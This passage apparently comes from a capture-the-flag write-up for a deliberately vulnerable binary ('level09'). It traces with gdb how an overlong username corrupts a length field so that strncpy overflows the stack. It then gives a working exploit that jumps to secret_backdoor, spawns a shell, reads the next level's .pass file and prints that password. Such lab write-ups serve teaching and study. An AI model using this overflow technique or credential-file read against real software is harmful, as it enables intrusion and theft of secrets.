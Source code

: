 We keep that in our mind, might be useful later if we can buffer overflow or string format exploit.

```assembly
(gdb) disas secret_backdoor 
Dump of assembler code for function secret_backdoor:
   0x000055555555488c <+0>:	push   %rbp
```

Now, let's try to rewrite some parts of the memory.

```assembly
(gdb) disas handle_msg 
Dump of assembler code for function handle_msg:
   0x00005555555548c0 <+0>:	push   %rbp
   0x00005555555548c1 <+1>:	mov    %rsp,%rbp
   0x00005555555548c4 <+4>:	sub    $0xc0,%rsp
   0x00005555555548cb <+11>:	lea    -0xc0(%rbp),%rax
   0x00005555555548d2 <+18>:	add    $0x8c,%rax
   0x00005555555548d8 <+24>:	movq   $0x0,(%rax)
   0x00005555555548df <+31>:	movq   $0x0,0x8(%rax)
   0x00005555555548e7 <+39>:	movq   $0x0,0x10(%rax)
   0x00005555555548ef <+47>:	movq   $0x0,0x18(%rax)
   0x00005555555548f7 <+55>:	movq   $0x0,0x20(%rax)
   0x00005555555548ff <+63>:	movl   $0x8c,-0xc(%rbp)
   0x0000555555554906 <+70>:	lea    -0xc0(%rbp),%rax
   0x000055555555490d <+77>:	mov    %rax,%rdi
   0x0000555555554910 <+80>:	callq  0x5555555549cd <set_username>
   0x0000555555554915 <+85>:	lea    -0xc0(%rbp),%rax
   0x000055555555491c <+92>:	mov    %rax,%rdi
   0x000055555555491f <+95>:	callq  0x555555554932 <set_msg>
=> 0x0000555555554924 <+100>:	lea    0x295(%rip),%rdi        # 0x555555554bc0
   0x000055555555492b <+107>:	callq  0x555555554730 <puts@plt>
   0x0000555555554930 <+112>:	leaveq 
   0x0000555555554931 <+113>:	retq  
```

With gdb, we can see some kind of structure inside `handle_msg`. Let's try to see if we're right on this one

```assembly
Continuing.
--------------------------------------------
|   ~Welcome to l33t-m$n ~    v1337        |
--------------------------------------------
>: Enter your username
>>: AAAAAAAAAAAAAAAAAAAAAAAAAAAA
>: Welcome, AAAAAAAAAAAAAAAAAAAAAAAAAAAA
>: Msg @Unix-Dude
>>: BBBBBBBBBBBBBBBBBBBBBBBBBBBBBBB

Breakpoint 2, 0x0000555555554924 in handle_msg ()
(gdb) x/46x $sp
0x7fffffffe3f0:	0x42424242	0x42424242	0x42424242	0x42424242
0x7fffffffe400:	0x42424242	0x42424242	0x42424242	0x0a424242
0x7fffffffe410:	0x00000000	0x00000000	0x00000000	0x00000000
0x7fffffffe420:	0x00000000	0x00000000	0x00000000	0x00000000
0x7fffffffe430:	0x00000000	0x00000000	0x00000000	0x00000000
0x7fffffffe440:	0x00000000	0x00000000	0x00000000	0x00000000
0x7fffffffe450:	0x00000000	0x00000000	0x00000000	0x00000000
0x7fffffffe460:	0x00000000	0x00000000	0x00000000	0x00000000
0x7fffffffe470:	0x00000000	0x00000000	0x00000000	0x41414141
0x7fffffffe480:	0x41414141	0x41414141	0x41414141	0x41414141
0x7fffffffe490:	0x41414141	0x41414141	0x0000000a	0x00000000
0x7fffffffe4a0:	0x00000000	0x0000008c

```

We can see that there is a spot for the message, for the username and for a int (?) and it looks like the `size of size_max(message) + size_max(username)`
Let's look a bit further :

```assembly
(gdb) x/52x $sp
0x7fffffffe3f0:	0x42424242	0x42424242	0x42424242	0x42424242
0x7fffffffe400:	0x42424242	0x42424242	0x42424242	0x0a424242
0x7fffffffe410:	0x00000000	0x00000000	0x00000000	0x00000000
0x7fffffffe420:	0x00000000	0x00000000	0x00000000	0x00000000
0x7fffffffe430:	0x00000000	0x00000000	0x00000000	0x00000000
0x7fffffffe440:	0x00000000	0x00000000	0x00000000	0x00000000
0x7fffffffe450:	0x00000000	0x00000000	0x00000000	0x00000000
0x7fffffffe460:	0x00000000	0x00000000	0x00000000	0x00000000
0x7fffffffe470:	0x00000000	0x00000000	0x00000000	0x41414141
0x7fffffffe480:	0x41414141	0x41414141	0x41414141	0x41414141
0x7fffffffe490:	0x41414141	0x41414141	0x0000000a	0x00000000
0x7fffffffe4a0:	0x00000000	0x0000008c	0xffffe4c0	0x00007fff
0x7fffffffe4b0:	0xffffe4c0	0x00007fff	0x55554abd	0x00005555
```

The eight lasts bytes correspond to the eip of the function `handle_message`

```assembly
(gdb) disas main
Dump of assembler code for function main:
   0x0000555555554aa8 <+0>:	push   %rbp
   0x0000555555554aa9 <+1>:	mov    %rsp,%rbp
   0x0000555555554aac <+4>:	lea    0x15d(%rip),%rdi        # 0x555555554c10
   0x0000555555554ab3 <+11>:	callq  0x555555554730 <puts@plt>
   0x0000555555554ab8 <+16>:	callq  0x5555555548c0 <handle_msg>
=> 0x0000555555554abd <+21>:	mov    $0x0,%eax
   0x0000555555554ac2 <+26>:	pop    %rbp
   0x0000555555554ac3 <+27>:	retq  
```

So maybe if we go further with the username, we can overwrite this eip. But it looks like there is some protection, still, let's try it.

```assembly
(gdb) r
The program being debugged has been started already.
Start it from the beginning? (y or n) y
Starting program: /home/users/level09/level09 

Breakpoint 1, 0x0000555555554aac in main ()
(gdb) c
Continuing.
--------------------------------------------
|   ~Welcome to l33t-m$n ~    v1337        |
--------------------------------------------
>: Enter your username
>>: AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
>: Welcome, AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA>: Msg @Unix-Dude
>>: BBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBB

Breakpoint 2, 0x0000555555554924 in handle_msg ()
(gdb) x/52x $sp
0x7fffffffe3f0:	0x42424242	0x42424242	0x42424242	0x42424242
0x7fffffffe400:	0x42424242	0x42424242	0x42424242	0x42424242
0x7fffffffe410:	0x42424242	0x42424242	0x42424242	0x000a4242
0x7fffffffe420:	0x00000000	0x00000000	0x00000000	0x00000000
0x7fffffffe430:	0x00000000	0x00000000	0xf7a945da	0x00007fff
0x7fffffffe440:	0x00000086	0x00000000	0x0000002d	0x00000000
0x7fffffffe450:	0x0000000a	0x00000000	0x55554c10	0x00005555
0x7fffffffe460:	0xffffe5a0	0x00007fff	0xf7a95d45	0x00007fff
0x7fffffffe470:	0xf7dd4260	0x00007fff	0xf7a9608f	0x41414141
0x7fffffffe480:	0x41414141	0x41414141	0x41414141	0x41414141
0x7fffffffe490:	0x41414141	0x41414141	0x41414141	0x41414141
0x7fffffffe4a0:	0x41414141	0x00000041	0xffffe4c0	0x00007fff
0x7fffffffe4b0:	0xffffe4c0	0x00007fff	0x55554abd	0x00005555
```

I gave 41 A's but it never go further from that, even if we give more A's. But we can see that `8c` has been changed by `41` so we can change that.

```assembly
(gdb) disas set_msg 
Dump of assembler code for function set_msg:
[...]
   0x00005555555549b2 <+128>:	lea    -0x400(%rbp),%rcx
   0x00005555555549b9 <+135>:	mov    -0x408(%rbp),%rax
   0x00005555555549c0 <+142>:	mov    %rcx,%rsi
   0x00005555555549c3 <+145>:	mov    %rax,%rdi
=> 0x00005555555549c6 <+148>:	callq  0x555555554720 <strncpy@plt>
   0x00005555555549cb <+153>:	leaveq 
   0x00005555555549cc <+154>:	retq   

```

Let's put a breakpoint here and see the arguments of strncpy (the last one is the length, let's focus on that).
Here with a username with less than 41 char.

```assembly
(gdb) i r
rax            0x7fffffffe3f0	140737488348144
rbx            0x0	0
rcx            0x7fffffffdfe0	140737488347104
rdx            0x8c	140
rsi            0x7fffffffdfe0	140737488347104
```

Here with 41 A's

```assembly
(gdb) i r
rax            0x7fffffffe3f0	140737488348144
rbx            0x0	0
rcx            0x7fffffffdfe0	140737488347104
rdx            0x41	65
rsi            0x7fffffffdfe0	140737488347104

(gdb) x/s 0x7fffffffdfe0
0x7fffffffdfe0:	 'B' <repeats 30 times>, "\n"
```

`rsi` is the starting address of our structure.
So when we give a big username, we can change the length of the message we will copy inside the stack. 
So let's try this:

- We need to overwrite `0x7fffffffe4b8-0x7fffffffe4bc` (`0x7fffffffe4b8 - 0x7fffffffe3f0 = 200`) So the first 200 bytes won't matter, we need to give the address of `secret_backdoor` from byte 201 to 208
- We need to change the length so we can write 208 bytes (`0xd0`)

```bash
level09@OverRide:~$ (python -c 'print("\xd0" * 41)'; python -c 'print("B" * 200 + "\x8c\x48\x55\x55\x55\x55\x00\x00")'; python -c 'print("/bin/sh")'; python -c 'print("cat /home/users/end/.pass")') | ./level09
--------------------------------------------
|   ~Welcome to l33t-m$n ~    v1337        |
--------------------------------------------
>: Enter your username
>>: >: Welcome, �����������������������������������������>: Msg @Unix-Dude
>>: >: Msg sent!
j4AunAPDXaJxxWjYEUxpanmvSgRDV3tpA5BEaBuE
Segmentation fault (core dumped)
```

```bash
su end
j4AunAPDXaJxxWjYEUxpanmvSgRDV3tpA5BEaBuE
```

